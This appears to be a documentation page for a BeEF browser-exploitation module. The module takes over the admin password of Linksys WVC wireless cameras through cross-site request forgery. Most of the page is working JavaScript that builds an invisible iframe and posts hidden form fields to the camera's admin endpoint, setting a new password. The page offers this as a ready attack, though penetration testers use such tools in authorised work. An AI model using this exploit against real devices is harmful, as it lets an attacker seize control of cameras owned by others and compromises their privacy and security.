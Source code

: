 ## Summary

* **Objective**: change the admin password on a Linksys WVCseries wireless camera
* **Authors**: bcoles, n0x00
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/camera/linksys_wvc_wireless_camera_csrf)

## Internal Working

Uses invisible iframe with POST request to change config.

```js

  var gateway = '<%= @base %>';
  var path    = 'adm/file.cgi';
  var passwd  = '<%= @password %>';

  var linksys_wvc_iframe = beef.dom.createIframeXsrfForm(gateway + path, "POST", "application/x-www-form-urlencoded",
    [{'type':'hidden', 'name':'adm',            'value':'admin'},
     {'type':'hidden', 'name':'admpw',          'value':passwd},
     {'type':'hidden', 'name':'admpwv',         'value':passwd},
     {'type':'hidden', 'name':'language',       'value':'1'},
     {'type':'hidden', 'name':'h_usernamelist', 'value':''},
     {'type':'hidden', 'name':'h_language',     'value':'1'},
     {'type':'hidden', 'name':'h_lang_from_mac','value':''},
     {'type':'hidden', 'name':'this_file',      'value':'pass_wd.htm'},
     {'type':'hidden', 'name':'next_file',      'value':'pass_wd.htm'},
     {'type':'hidden', 'name':'todo',           'value':'save'},
     {'type':'hidden', 'name':'video_file',     'value':''},
     {'type':'hidden', 'name':'',               'value':'Submit form'}
    ]);
```

## Feedback
